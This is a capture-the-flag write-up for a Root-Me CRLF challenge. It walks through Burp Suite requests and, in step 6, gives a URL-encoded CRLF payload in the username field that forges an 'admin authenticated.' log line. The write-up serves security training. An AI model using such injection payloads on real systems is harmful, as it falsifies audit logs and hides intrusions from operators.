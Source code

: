 # Challenge18: CRLF

## Ref
    + w3schools: https://www.w3schools.com/tags/ref_urlencode.ASP

## Solution

    1. This challenge is about '\r' and '\n' symbols
    2. Open Burp suite and go to the target url: http://challenge01.root-me.org/web-serveur/ch14/
    3. Try to login with your information, for example:
```
GET web-serveur/ch14/username=dangphuc&password=godyzac

Result:
dangphuc failed to authenticate.
```
    4. After a while, i realize that we don't need to send password to login:

```
GET web-serveur/ch14/username=dangphuc

Result:
dangphuc failed to authenticate.
```
    
    5. This is the sample logs:

```
admin authenticated.
guest failed to authenticate.
```
    
    6. So now think of CRLF('\r' & '\n'), Can we log the same as 5 ?

```
GET web-serveur/ch14/username=admin%20authenticated.%0D%0Aguest
```

    7. When you make the request in step 6, you will get the flag :)
